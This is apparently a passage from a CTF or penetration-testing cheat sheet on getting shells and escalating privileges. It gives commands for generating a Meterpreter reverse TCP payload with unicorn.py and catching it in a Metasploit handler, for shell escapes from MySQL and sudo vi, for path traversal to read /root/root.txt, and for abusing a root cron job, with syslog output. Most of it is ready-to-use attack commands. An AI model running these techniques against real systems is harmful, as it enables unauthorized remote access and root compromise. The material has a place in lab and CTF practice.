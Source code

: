 ```
> $ /opt/unicorn/unicorn.py windows/meterpreter/reverse_tcp <HOST_IP> 3333 
[*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...
> $ msfconsole -r unicorn.rc 
[*] Started reverse TCP handler on <HOST_IP>:3333 
msf5 exploit(multi/handler) >         
```

### MYSQL with Sudo Privilage

**To get Shell from MYSQL**

```
mysql> \! /bin/sh
```

### VIM Editor with Sudo Privilage

**To get Shell from VIM.**

**Method-1:**

```
> $ sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```

**Method-2:**

```
> $ sudo /usr/bin/vi /var/www/html/anyrandomFile
Type Escape and enter :!/bin/bash
```

### Cronjob

**If some system cron is getting some url present in the file, we can replace url to get flag as below.**

```
> $ cat input 
url = "file:///root/root.txt"
```

**To monitor cronjobs, we can tail the syslogs.**

```
> $ tail -f /var/log/syslog
Nov 18 23:55:01 sun CRON[5327]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
Nov 19 00:00:01 sun CRON[5626]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
Nov 19 00:00:01 sun CRON[5627]: (sun) CMD (nodejs /home/sun/server.js >/dev/null 2>&1)
Nov 19 00:05:01 sun CRON[5701]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
```
